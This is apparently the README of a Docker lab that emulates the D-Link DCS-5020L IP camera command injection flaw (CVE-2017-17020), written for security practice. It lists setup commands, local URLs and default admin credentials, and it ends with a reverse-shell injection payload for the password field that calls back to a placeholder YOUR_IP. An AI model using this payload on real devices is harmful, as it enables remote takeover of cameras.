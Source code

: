 # IoT project that emitatee real world IoT ip camera vulnerabilities

This project aims to emulate real world vulnerabilities inside IoT devices. This project emulates (without the telnet daemon) the vulnerability cve-2017-17020 present on the DLINK DCS-5020L camera devices.
The project was built with the help of the project cam2ip and the use of traefik and Flask to serve the admin panel.

### Resources
[Blogpost Talking about the cve discovery and exploitation](https://fidusinfosec.com/dlink-dcs-5030l-remote-code-execution-cve-2017-17020/)

[Exploit DB entry](https://www.exploit-db.com/exploits/44580)

[Talk about exploiting the cve](https://youtu.be/jiYv-bQ2UX8)

### Run camera:

```bash
docker-compose up --build
```

### Camera image

```
http://localhost/
```

### Admin panel

```
http://localhost/admin
```

### Default credentials
```
admin:johncena
```

### Payload for shell (used on the change admin password on the new pass fields)
```
‘`bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/9999 <&1'`’
```
